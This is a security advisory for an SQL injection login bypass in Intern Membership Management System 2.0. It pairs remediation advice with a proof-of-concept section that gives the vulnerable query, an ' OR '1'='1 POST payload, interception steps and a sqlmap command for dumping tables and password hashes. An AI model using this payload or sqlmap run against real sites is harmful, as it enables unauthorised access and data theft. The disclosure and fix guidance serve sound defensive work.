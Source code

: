 Vulnerability Advisory & Exploit
  Affected Version
    Intern Membership Management System 2.0(Discovered in intern/student_login.php)

  Vulnerability Type
    SQL Injection
    Unauthenticated login bypass via unsanitized POST parameters in login logic.

  Advisory (Recommendations)
    To remediate this vulnerability, developers should implement the following countermeasures:

  ✅ Use parameterized queries (prepared statements)
      Avoid concatenating raw input into SQL statements. Use mysqli_prepare() or PDO with bound parameters:

      $stmt = $conn->prepare("SELECT * FROM registered_users WHERE user_name=? AND password=?");
      $stmt->bind_param("ss", $username, $password);
      $stmt->execute();


  ✅ Hash passwords securely
    Replace plain-text password storage with secure hashing (e.g., password_hash() and password_verify()).

  ✅ Sanitize and validate all input
    Even if prepared statements are used, all user inputs should be validated for expected format.

  ✅ Apply least privilege principle
    The database user used for this connection should only have access to the necessary tables and read-only rights where applicable.
    
  ✅ Disable error message output in production
    Avoid using die(mysqli_error()) in production; log errors securely instead.

  ✅ Harden access to sensitive endpoints
    Ensure that login pages are protected with rate-limiting, CAPTCHA, and do not leak excessive error details.

 Proof-of-Concept (Exploit)
   Vulnerable Endpoint
    POST /intern/student_login.php

   Vulnerable Code
    $query = mysqli_query($dbconn, "SELECT * FROM registered_users WHERE user_name='$username' and password='$password'");

   POST Payload
    user_name=' OR '1'='1
    password=irrelevant
    submit=Login


   Exploit Steps
     Open the login page: /intern/student_login.php
     Intercept the request using a proxy (e.g., Burp Suite)
     Modify the POST parameters:
       user_name=' OR '1'='1
       password=anyvalue
       submit=Login
     Forward the request — login will succeed, redirecting the attacker to fill_details.php without valid credentials

  Alternative (Automated with sqlmap)
     sqlmap -u "http://target-site/intern/student_login.php" --data="user_name=test&password=test&submit=Login" --risk=3 --level=5 --batch
  
  This can be used to automate enumeration of tables, users, or extract password hashes if error-based or union-based injection is available.


Risk Level
High – Leads to full authentication bypass and potential access to sensitive user data.

